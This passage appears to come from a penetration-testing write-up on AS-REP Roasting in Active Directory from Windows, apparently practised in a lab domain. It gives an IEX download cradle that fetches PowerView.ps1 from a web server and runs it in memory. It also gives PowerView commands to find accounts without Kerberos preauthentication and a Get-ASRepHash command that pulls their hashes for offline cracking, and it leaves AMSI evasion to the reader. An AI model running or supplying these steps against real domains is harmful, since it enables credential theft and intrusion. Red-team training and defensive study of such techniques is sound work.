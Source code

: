 

### [](#header-3)From Windows



Just like Kerberoasting AS-REP Roasting can be done from both Windows & Linux but we will cover Windows first as it's much more convenient. We are attacking windows after all!  



#### [](#header-4)Powerview



 **Enumeration**

First let's import `PowerView.ps1` into Memory with 

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://werbserver:80/PowerView.ps1')
```



As said above under `Kerberoasting` `AMSI` will probably flag this on `WIN10 1803` but I will leave evasion upto yourselves.

Now with PowerView in memory on a **Domain-Joined Machine** we can simply run

```powershell
Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
```

You can also do the below

```powershell
Get-DomainUser victimuser | Convert-FromUACValue
```



**Exploit**

Armed with our target user with `DONT_REQ_PREAUTH` set we can now request the relevant ticket to crack offline. Sadly `PowerView.ps1` does not have a ASREP Roasting Function included however the author `harmj0y` or `PowerView` created a fantastic module to do this with

*https://github.com/HarmJ0y/ASREPRoast*



Simply Import the Module with 

```powershell
Import-Module .\ASREPRoast.ps1
```



And now we can simply run

```powershell
Get-ASRepHash -Domain rastalabs.local -UserName ngodfrey
```


